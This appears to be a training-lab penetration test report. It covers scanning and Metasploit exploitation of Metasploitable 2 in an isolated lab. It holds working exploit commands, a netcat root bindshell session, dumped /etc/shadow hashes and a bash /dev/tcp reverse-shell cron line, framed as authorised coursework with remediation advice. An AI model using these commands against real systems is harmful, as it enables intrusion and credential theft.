





# S07: Vulnerability Assessment to Exploitation & Reporting

<p align="center">
  
  
  
  
</p>

<p align="center">
  <b>Day 3 Hands-On Lab | Automated Scanning with Greenbone (GVM/OpenVAS) | Controlled Metasploit Exploitation | Post-Exploitation Proof | Professional VA/PT Reporting</b>
</p>

<p align="center">
  <a href="S07_Vulnerability_Assessment_and_Penetration_Testing_Report.pdf"><strong>📄 Download Official Final VA/PT Report (PDF)</strong></a>
  &nbsp;|&nbsp;
  <a href="#-evidence-repository"><strong>📸 View Evidence Repository</strong></a>
  &nbsp;|&nbsp;
  <a href="https://github.com/hckr-zahid/pseb-deploy-bootcamp"><strong>PSEB DEPLOY BootCamp Main Repository</strong></a>
</p>

---

## 📑 Table of Contents

1. [Project Overview & Objectives](#-project-overview--objectives)
2. [Lab Environment & Network Isolation](#-lab-environment--network-isolation)
3. [Phase 1: Active Reconnaissance & Service Fingerprinting](#1-phase-1--active-reconnaissance--service-fingerprinting)
4. [Phase 2: Automated Vulnerability Management with Greenbone (GVM / OpenVAS)](#2-phase-2--automated-vulnerability-management-with-greenbone-gvm--openvas)
   - [GVM Architecture, Setup & PostgreSQL Resolution](#gvm-setup--check-setup-verification)
   - [GVM vs. Manual Penetration Testing Comparative Analysis](#gvm-vs-manual-penetration-testing-comparative-analysis)
5. [Phase 3: Controlled Exploitation with Metasploit](#3-phase-3--controlled-exploitation-with-metasploit)
   - [Finding 01: vsftpd 2.3.4 Backdoor Command Execution (CVE-2011-2523)](#finding-01--vsftpd-234-backdoor-command-execution-cve-2011-2523)
   - [Finding 02: Weak Default Credentials & Sudo Privilege Escalation (CWE-1392)](#finding-02--weak-default-credentials--sudo-privilege-escalation-cwe-1392)
   - [Finding 03: Unauthenticated Direct Root Shell Listener on Port 1524 (CWE-287)](#finding-03--unauthenticated-direct-root-shell-listener-on-port-1524-cwe-287)
   - [Finding 04: Samba 3.0.20 usermap_script Command Execution (CVE-2007-2447)](#finding-04--samba-3020-usermap_script-command-execution-cve-2007-2447)
6. [Phase 4: Post-Exploitation Demonstration & Operational Discipline](#4-phase-4--post-exploitation-demonstration--operational-discipline)
   - [Proof of Confidentiality Breach (/etc/shadow Exfiltration)](#proof-of-confidentiality-breach-etcshadow-exfiltration)
   - [Persistence Mechanism Staging (Cron Backdoor)](#persistence-mechanism-staging-cron-backdoor)
   - [Forensic Clean-up & Artifact Sanitization](#forensic-clean-up--artifact-sanitization)
7. [Phase 5: Scope Classification & Legal Context](#5-phase-5--scope-classification--legal-context)
8. [Prioritized Remediation Roadmap](#-prioritized-remediation-roadmap)
9. [Evidence Repository](#-evidence-repository)
10. [Repository Structure](#-repository-structure)

---

## 📌 Project Overview & Objectives

This project documents the end-to-end execution of the **Day 3 Practical Assessment** (*"From Vulnerability Scanning to Exploitation and Reporting"*) under the **PSEB DEPLOY AI BootCamp (SC-500)** training track, instructed by **Waseem Abbas Khan** (Senior Cybersecurity Specialist, CEI Master Trainer).

The engagement bridges the critical transition from theoretical vulnerability identification to active proof-of-concept exploitation, post-exploitation assessment, and formal executive deliverable generation.

### Key Learning Outcomes Addressed

- **Outcome 1:** Articulate the precise operational distinction between a Vulnerability Assessment (VA) and a Penetration Test (PT).
- **Outcome 2:** Install, configure, initialize, and operate Greenbone Vulnerability Management (GVM/OpenVAS v28.3.0), resolving database collation dependencies and evaluating feed sync.
- **Outcome 3:** Weaponize identified vulnerabilities into working root-level interactive shells using the Metasploit Framework.
- **Outcome 4:** Perform post-exploitation operations including privilege verification, protected credential exfiltration (`/etc/shadow`), persistence simulation, and forensic cleanup.
- **Outcome 5:** Classify engagement scope (Black-box vs. Grey-box vs. White-box) and justify the classification within the legal framework of the Pakistan Prevention of Electronic Crimes Act (PECA) 2016.
- **Outcome 6:** Structure and author a complete, client-ready VA/PT report following the standardized template, compiled into a formal PDF deliverable.

---

## 🖥️ Lab Environment & Network Isolation

All activities were conducted inside a dedicated host-only laboratory network. Network isolation was verified prior to active testing to guarantee zero packet leakage outside the testbed boundary.

| Component | Specification / Setting | Notes |
|:---|:---|:---|
| **Attacking Machine** | Kali Linux Rolling (`badguy@kali`) | Kernel Linux 6.x / Metasploit 6.4 / GVM 28.3.0 |
| **Attacker IP Address** | `10.50.20.10/24` | Configured on virtual adapter `eth0` |
| **Target Machine** | Metasploitable 2 (`metasploitable.localdomain`) | Ubuntu 8.04 LTS (Linux kernel 2.6.24-16-server i686) |
| **Target IP Address** | `10.50.20.30/24` | Fixed lab IP address |
| **Hypervisor** | VMware Workstation Pro 17 | Host-Only isolated segment |
| **Network Isolation Proof** | `ping -c 2 -W 1 8.8.8.8` &rarr; `internet exit=1` | 100% packet loss confirmed zero outbound egress |
| **Legal Mandate** | Host-Only Laboratory Authorization | Compliant with PECA 2016 Section 3 & 4 |

```bash
# Network Isolation & Connectivity Verification
ping -c 2 10.50.20.30
ping -c 2 -W 1 8.8.8.8 ; echo "internet exit=$?"
```

---

## 1. Phase 1 — Active Reconnaissance & Service Fingerprinting

A comprehensive TCP service scan with version detection, default NSE scripts, and OS fingerprinting was performed against `10.50.20.30`:

```bash
sudo nmap -sV -sC -O -T4 10.50.20.30 -oN evidence/02_nmap_services.txt
```

### Identified Attack Surface & Exposed Services

| Port / Protocol | State | Service | Detected Daemon / Version | Immediate Security Assessment |
|:---|:---:|:---|:---|:---|
| **21/tcp** | Open | FTP | `vsftpd 2.3.4` (Anonymous login enabled) | **Critical Risk:** Known historical backdoor archive (CVE-2011-2523). |
| **22/tcp** | Open | SSH | `OpenSSH 4.7p1 Debian 8ubuntu1` | **High Risk:** Legacy host keys (`ssh-rsa`), susceptible to credential reuse. |
| **23/tcp** | Open | Telnet | `Linux telnetd` | **Medium Risk:** Cleartext transport protocol exposing credentials in transit. |
| **25/tcp** | Open | SMTP | `Postfix smtpd` | Exposed internal mail agent. |
| **53/tcp** | Open | Domain | `ISC BIND 9.4.2` | Legacy DNS resolver. |
| **80/tcp** | Open | HTTP | `Apache httpd 2.2.8 ((Ubuntu) DAV/2)` | Legacy web daemon hosting DVWA and Mutillidae. |
| **111/tcp** | Open | RPC | `rpcbind 2` | RPC portmapper. |
| **139/445/tcp** | Open | SMB | `Samba smbd 3.0.20-Debian` | **Critical Risk:** Vulnerable to `username map script` RCE (CVE-2007-2447). |
| **512/513/514/tcp**| Open | R-Services | `rexecd`, `login`, `Netkit rshd` | Obsolete cleartext Berkeley remote execution daemons. |
| **1524/tcp** | Open | Bindshell | `Metasploitable root shell` | **Critical Risk:** Unauthenticated root shell listener directly on port. |
| **2049/tcp** | Open | NFS | `NFS v2-v4 (RPC #100003)` | Network file sharing exports. |
| **3306/tcp** | Open | MySQL | `MySQL 5.0.51a-3ubuntu5` | Relational database listener. |
| **5432/tcp** | Open | PostgreSQL | `PostgreSQL DB 8.3.0 - 8.3.7` | Exposed database service. |
| **5900/tcp** | Open | VNC | `VNC protocol 3.3` | Remote graphical desktop. |
| **6667/tcp** | Open | IRC | `UnrealIRCd 3.2.8.1` | **Critical Risk:** Malicious Trojan backdoor (CVE-2010-2075). |
| **8180/tcp** | Open | HTTP | `Apache Tomcat/Coyote JSP engine 1.1 (v5.5)` | Web application container with default manager endpoints. |

<p align="center">
  <br>
  <i>Figure 1: Active Nmap scan identifying exposed network daemons (Ports 21–512).</i>
</p>

---

## 2. Phase 2 — Automated Vulnerability Management with Greenbone (GVM / OpenVAS)

### GVM Setup & `gvm-check-setup` Verification

To fulfill **Outcome 2**, Greenbone Vulnerability Management (GVM v28.3.0 / OpenVAS) was installed and initialized on Kali Linux.

During initial database initialization, a PostgreSQL collation version mismatch was encountered due to glibc upgrades (`template database template1 has a collation version mismatch`). Following the troubleshooting discipline outlined in Section 2.1 of the handout, the issue was remediated by refreshing the database collation version and creating the administrative account:

```bash
# Refresh PostgreSQL Collation Version
sudo -u postgres psql -c "ALTER DATABASE template1 REFRESH COLLATION VERSION;"
sudo -u postgres psql -c "ALTER DATABASE postgres REFRESH COLLATION VERSION;"

# Run the official database creator
sudo runuser -u postgres -- /usr/share/gvm/create-postgresql-database

# Provision admin account & set Feed Import Owner
sudo runuser -u _gvm -- gvmd --create-user=admin --password=admin
ADMIN_UUID=$(sudo runuser -u _gvm -- gvmd --get-users --verbose | grep admin | awk '{print $2}')
sudo runuser -u _gvm -- gvmd --modify-setting 78eceaec-3385-11ea-b237-28d24461215b --value=$ADMIN_UUID

# Verify installation health
sudo gvm-check-setup
```

The setup check completed with all 9 numbered steps passing:
```text
Step 1: Checking OpenVAS (Scanner)... OK (95107 NVTs loaded)
Step 2: Checking GVMD Manager ... OK
Step 3: Checking Certificates ... OK
Step 4: Checking data ... OK (SCAP & CERT data verified)
Step 5: Checking Postgresql DB and user ... OK (At least one user exists)
Step 6: Checking Greenbone Security Assistant ... OK (gsad 27.2.0 active)
Step 7: Checking if GVM services are up ... OK (gvmd active, gsad active)
Step 8: Checking other requirements ... OK
Step 9: Checking greenbone-security-assistant ... OK
It seems like your GVM-25.04.0 installation is OK.
```

<p align="center">
  <br>
  <i>Figure 2: Greenbone Security Assistant web dashboard running on port 9392.</i>
</p>

<p align="center">
  <br>
  <i>Figure 3: Feed Status tracking showing NVT Feed Current (95,000+ tests) with SCAP/CERT database sync in progress.</i>
</p>

---

### GVM vs. Manual Penetration Testing Comparative Analysis

Addressing the **20% assignment requirement** (*"Where do they agree, where do they differ, and why?"*):

| Target Service / Vulnerability | GVM / OpenVAS Automated Scan | Manual Penetration Testing (Nmap + MSF) | Analysis: Agreement vs. Divergence & Technical Reason |
|:---|:---|:---|:---|
| **vsftpd 2.3.4 Backdoor**<br>(CVE-2011-2523) | Flagged as **Critical** via service banner string matching. | Actively weaponized via Metasploit to obtain a root Meterpreter shell. | **Agreed on presence.** GVM detects statically via banner; manual test proved real-world weaponization and session control. |
| **Samba 3.0.20 usermap_script**<br>(CVE-2007-2447) | Flagged as **High/Critical** via SMB protocol dialect inspection. | Exploited via Metasploit to spawn an interactive root shell on port 445. | **Agreed on presence.** GVM performs safe non-intrusive RPC checks; manual penetration testing proved command injection without crashing the service. |
| **Weak Default Credentials**<br>(`msfadmin:msfadmin` / `user:user`) | Flagged as **Low/Medium** for outdated SSH banner and weak host keys. | Authenticated via SSH and escalated immediately to root via `sudo su`. | ⚠️ **Major Divergence.** GVM excludes dictionary attacks to prevent service disruption; GVM cannot evaluate the sudoers privilege escalation relationship. |
| **TCP Port 1524 Bindshell**<br>(Unauthenticated Root Shell) | Flagged as **Unknown / Informational** port listener. | Connected via Netcat (`nc 10.50.20.30 1524`) yielding immediate unauthenticated root. | ❌ **Major Divergence.** GVM treats non-standard ports without HTTP/TLS headers as generic listeners; manual verification immediately identified an active root backdoor. |
| **Apache 2.2.8 & Tomcat 5.5**<br>(Cumulative Web CVEs) | Generated **50+ High/Medium alerts** from version string regex. | Triaged as unexploitable without specific enabled modules. | ⚠️ **Divergence (False Positives).** GVM inflates findings based purely on version numbers; manual triage eliminates alert fatigue for the client. |

#### Root Cause Analysis of Variances:
1. **Candidate vs. Confirmed Findings:** GVM identifies *candidate* vulnerabilities based on signatures. The analyst's job is triage—separating actual exploitable vectors from banner artifacts.
2. **Operational Safety vs. Proof of Impact:** Automated scanners intentionally avoid running invasive memory exploits to protect production uptime. A penetration test safely proves the true blast radius.
3. **Multi-Step Privilege Chaining:** Automated scanners cannot synthesize chained logical flaws:
   $$\text{SSH Open (22)} \xrightarrow{\text{Default Creds: msfadmin}} \text{Standard User} \xrightarrow{\text{Misconfigured sudoers}} \text{Full Root Takeover}$$

---

## 3. Phase 3 — Controlled Exploitation with Metasploit

---

### Finding 01 — `vsftpd 2.3.4` Backdoor Command Execution (CVE-2011-2523)

* **Severity:** **CRITICAL (CVSS v3.1: 9.8)**
* **Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`
* **Affected Service:** `10.50.20.30:21/tcp` (`vsftpd 2.3.4`)
* **Weakness Class:** CWE-78 (OS Command Injection)

#### Step-by-Step Exploitation Execution

1. **Launch Metasploit & Load Module:**
   ```text
   msfconsole -q
   msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
   ```
2. **Configure Target and Listener:**
   ```text
   msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.50.20.30
   msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set LHOST 10.50.20.10
   msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
   ```
   *As emphasized in Section 5.2 of the handout, specifying the correct `LHOST` (`10.50.20.10`) is essential for reverse payload communication back to Kali.*
3. **Execution & Session Acquisition:**
   ```text
   [*] Started reverse TCP handler on 10.50.20.10:4444 
   [+] 10.50.20.30:21 - The target appears to be vulnerable. vsftpd 2.3.4 banner detected
   [+] 10.50.20.30:21 - Backdoor has been spawned!
   [*] Meterpreter session 1 opened (10.50.20.10:4444 -> 10.50.20.30:53167)
   ```
4. **Privilege & System Verification:**
   ```text
   meterpreter > getuid
   Server username: root

   meterpreter > sysinfo
   Computer     : metasploitable.localdomain
   OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
   Architecture : i686

   meterpreter > shell
   id
   uid=0(root) gid=0(root)
   whoami
   root
   ```

<p align="center">
  <br>
  <i>Figure 4: Metasploit backdoor execution spawning an interactive root Meterpreter session.</i>
</p>

---

### Finding 02 — Weak Default Credentials & Sudo Privilege Escalation (CWE-1392)

* **Severity:** **HIGH (CVSS v3.1: 8.1)**
* **Vector:** `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H`
* **Affected Services:** `22/tcp` (SSH), `21/tcp` (FTP), `3306/tcp` (MySQL)
* **Weakness Class:** CWE-1392 (Use of Default Credentials) / CWE-250 (Execution with Unnecessary Privileges)

#### Step-by-Step Proof of Concept

1. **Remote SSH Authentication with Legacy Algorithm Support:**
   Because Metasploitable 2 runs OpenSSH 4.7p1 offering older host keys, modern Kali requires explicit algorithm allowance:
   ```bash
   ssh -oHostKeyAlgorithms=+ssh-rsa msfadmin@10.50.20.30
   # Password: msfadmin
   ```
2. **Local Privilege Escalation via Misconfigured Sudoers:**
   ```bash
   msfadmin@metasploitable:~$ whoami
   msfadmin

   msfadmin@metasploitable:~$ sudo -l
   User msfadmin may run the following commands on this host:
       (ALL) ALL

   msfadmin@metasploitable:~$ sudo su
   root@metasploitable:/home/msfadmin# id
   uid=0(root) gid=0(root) groups=0(root)
   ```

<p align="center">
  <br>
  <i>Figure 5: Authenticated interactive SSH session established using default credentials msfadmin:msfadmin.</i>
</p>

---

### Finding 03 — Unauthenticated Direct Root Shell Listener on Port 1524 (CWE-287)

* **Severity:** **CRITICAL (CVSS v3.1: 9.8)**
* **Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`
* **Affected Service:** `10.50.20.30:1524/tcp` (`bindshell`)
* **Weakness Class:** CWE-287 (Improper Authentication) / CWE-1188 (Insecure Default)

#### Step-by-Step Proof of Concept

Connecting to TCP port 1524 via Netcat drops the client directly into a raw interactive root shell without requiring any authentication:

```bash
nc 10.50.20.30 1524
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
hostname
metasploitable
```

---

### Finding 04 — Samba 3.0.20 `usermap_script` Command Execution (CVE-2007-2447)

* **Severity:** **CRITICAL (CVSS v3.1: 9.8)**
* **Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`
* **Affected Service:** `10.50.20.30:139,445/tcp` (`Samba smbd 3.0.20-Debian`)
* **Weakness Class:** CWE-78 (OS Command Injection)

#### Step-by-Step Proof of Concept

By supplying shell meta-characters into the MS-RPC username during SMB authentication, Samba evaluates the string inside `/bin/sh`:

```text
msf6 > use exploit/multi/samba/usermap_script
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.50.20.30
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.50.20.10:4444 
[*] Command shell session 2 opened (10.50.20.10:4444 -> 10.50.20.30:57145)

id
uid=0(root) gid=0(root)
whoami
root
hostname
metasploitable
```

---

## 4. Phase 4 — Post-Exploitation Demonstration & Operational Discipline

As required by **Outcome 4** and **Section 5.3** of the syllabus, gaining a shell is only the first phase of an engagement. The subsequent post-exploitation phases were systematically demonstrated:

### Proof of Confidentiality Breach (`/etc/shadow` Exfiltration)
To demonstrate the business consequence of unauthorized root code execution, the protected password hash file `/etc/shadow` was inspected:

```bash
head -n 5 /etc/shadow
```
**Output:**
```text
root:z8jcIOYBwrec2:20762:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
```
*Impact:* Salted password hashes for all system accounts were exfiltrated, enabling offline dictionary attacks via `rockyou.txt` using tools like Hashcat or John the Ripper.

### Persistence Mechanism Staging (Cron Backdoor)
To demonstrate how an adversary maintains survivable access across server reboots, a simulated periodic cron task was staged:

```bash
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/10.50.20.10/4444 0>&1'" > /tmp/cron_backdoor.txt
cat /tmp/cron_backdoor.txt
```

### Forensic Clean-up & Artifact Sanitization
Ethical engagements require strict clean-up discipline. Staged payloads were purged immediately upon verification:

```bash
rm /tmp/cron_backdoor.txt
echo "Persistence artifact removed cleanly."
```

---

## 5. Phase 5 — Scope Classification & Legal Context

### Scope Justification (Section 4.1 & Outcome 5)
This assessment was classified as **Grey-Box**:
- **Why Grey-Box:** Testing was conducted from an internal network perspective (`10.50.20.0/24`) with knowledge of the subnet topology and simulated insider access, accurately modeling an attacker who has bypassed the external perimeter (e.g., via compromised VPN credentials or a jump host).
- **Comparison:**
  - *Black-Box:* Only IP address provided; extensive time spent on external reconnaissance.
  - *White-Box:* Full source code, architecture diagrams, and administrative credentials supplied.
  - *Grey-Box (This Test):* Realistic balance testing internal privilege escalation and lateral movement.

### Legal Compliance Statement (PECA 2016)
Under the **Prevention of Electronic Crimes Act (PECA) 2016 (Pakistan)**:
- Section 3 (Unauthorized access to information system or data) and Section 4 (Unauthorized copying or transmission of data) make unauthorized exploitation a severe criminal offense.
- All testing in this bootcamp was executed strictly within an **authorized host-only lab testbed** under signed Rules of Engagement (RoE).

---

## 🛡️ Prioritized Remediation Roadmap

Remediations are organized into actionable operational tiers:

| Priority | Action Item | Target Component | Effort | Security Impact |
|:---:|:---|:---|:---:|:---|
| **P1: Immediate**<br>*(Within 24 Hours)* | Terminate rogue `bindshell` on Port 1524 and disable vulnerable `vsftpd 2.3.4` service. | Ports 21, 1524 | Minimal | Closes 2 unauthenticated root RCE avenues. |
| **P1: Immediate**<br>*(Within 24 Hours)* | Enforce immediate password rotation for all accounts (`msfadmin`, `user`, `root`). | System Accounts | Low | Eliminates credential spraying and lateral movement. |
| **P2: Short-Term**<br>*(Within 7 Days)* | Upgrade Samba to supported branch (v4.x) and remove `username map script` directive. | Ports 139, 445 | Medium | Neutralizes MS-RPC command injection vector. |
| **P2: Short-Term**<br>*(Within 7 Days)* | Audit `/etc/sudoers` to revoke blanket `(ALL) ALL` privileges from standard users. | Linux Privileges | Low | Prevents non-root accounts from achieving root takeover. |
| **P3: Medium-Term**<br>*(Within 30 Days)*| Decommission legacy cleartext protocols (Telnet, RSH, unencrypted FTP) and migrate to SFTP/SSH. | Ports 23, 512, 514 | Medium | Prevents cleartext credential interception in transit. |
| **P4: Ongoing** | Deploy scheduled automated scanning (GVM) paired with automated patch management pipelines. | Entire Estate | High | Detects configuration drift and newly disclosed vulnerabilities. |

---

## 📂 Evidence Repository

All raw output logs, scan artifacts, and visual evidence captures are preserved in the `evidence/` directory:

| Evidence File | File Type | Description |
|:---|:---|:---|
| [`01_network_verification.txt`](evidence/01_network_verification.txt) | Text Log | Ping isolation check (`internet exit=1`) and IP verification |
| [`02_nmap_services.txt`](evidence/02_nmap_services.txt) | Text Log | Full Nmap service, script, and OS detection output |
| [`02_nmap_service_scan_part1.jpg`](evidence/02_nmap_service_scan_part1.jpg) | Figure Evidence | Nmap scan output (Ports 21 to 512) |
| [`02_nmap_service_scan_part2.jpg`](evidence/02_nmap_service_scan_part2.jpg) | Figure Evidence | Nmap scan output (Ports 514 to 8180) |
| [`02_nmap_service_scan_part3.jpg`](evidence/02_nmap_service_scan_part3.jpg) | Figure Evidence | Nmap SMB OS discovery and script results |
| [`03_msf_vsftpd_exploit.txt`](evidence/03_msf_vsftpd_exploit.txt) | Text Log | Metasploit vsftpd 2.3.4 execution transcript |
| [`03_msf_vsftpd_exploit_session.jpg`](evidence/03_msf_vsftpd_exploit_session.jpg) | Figure Evidence | Meterpreter session 1 opened as root |
| [`04_post_exploit_root_proof.txt`](evidence/04_post_exploit_root_proof.txt) | Text Log | Meterpreter `getuid`, `sysinfo`, and Linux shell `id` verification |
| [`05_post_exploitation.txt`](evidence/05_post_exploitation.txt) | Text Log | Protected `/etc/shadow` dump and cron persistence test |
| [`06_ssh_default_credentials_login.jpg`](evidence/06_ssh_default_credentials_login.jpg) | Figure Evidence | SSH login via `msfadmin:msfadmin` |
| [`08_msf_samba_root_shell.txt`](evidence/08_msf_samba_root_shell.txt) | Text Log | Samba `usermap_script` Metasploit RCE to root shell |
| [`11_gvm_check_setup_success.txt`](evidence/11_gvm_check_setup_success.txt) | Text Log | Successful `gvm-check-setup` output (9/9 checks OK) |
